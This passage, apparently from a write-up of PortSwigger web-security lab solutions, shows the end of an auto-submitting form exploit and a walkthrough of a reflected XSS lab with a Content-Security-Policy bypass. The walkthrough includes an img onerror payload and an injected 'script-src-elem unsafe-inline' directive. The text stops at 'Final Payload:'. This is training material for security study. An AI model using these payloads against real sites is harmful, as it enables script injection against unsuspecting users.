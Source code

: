 ```bash
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

Click "Store"
Click "Deliver exploit to victim"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220522004152.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220522002838.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220522005034.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220522005118.png)

### Reflected XSS protected by CSP, with CSP bypass
```bash

# This lab uses CSP and contains a reflected XSS vulnerability.

# To solve the lab, perform a cross-site scripting attack that bypasses the CSP and calls the alert function.

# Please note that the intended solution to this lab is only possible in Chrome.

**DISCLAIMER**
- COMPLETE ON CHROME/CHROMIUM

Type into search:

<img src=1 onerror=alert(1)>

Go to: HTTP history

GET /?search=%3Cimg+src%3D1+onerror%3Dalert%281%29%3E HTTP/1.

Response:

Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=

%3c = <
%28 = (
%29 = )
%2f = /
%20 - +
%27 = '

=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27

// or // decoded

=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'

Final Payload:

```